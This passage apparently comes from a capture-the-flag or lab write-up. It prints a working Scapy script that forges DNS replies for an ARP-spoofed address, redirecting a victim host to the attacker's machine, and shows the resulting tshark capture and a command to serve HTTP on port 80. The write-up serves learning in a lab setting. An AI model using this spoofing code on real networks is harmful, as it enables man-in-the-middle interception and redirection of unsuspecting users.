 The final script with a valid DNS response:

```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src="02:42:0a:06:00:04", dst="4c:24:57:ab:ed:84")   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src="10.6.6.53")                          # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)                             # need to replace ports
    dns = DNS(id=packet[DNS].id, qd=packet[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, ar=DNSRR(rrname=packet[DNS].qd.qname, type='A', ttl=259200, rdata='10.6.0.4'))
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")
def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )
    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
    main()
```

After both the ARP and DNS response scripts are successfully executed, a `tshark` packet capture shows the remote host attempting a connection to port 80:

```
90 74.283397795    10.6.6.35 → 10.6.0.4     TCP 74 41228 → 80 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=762519799 TSecr=0 WS=128
```

The `HELP.MD` file mentions a python command for starting a HTTP server on port 80.

Execute the following command:

```
python3 -m http.server 80
```
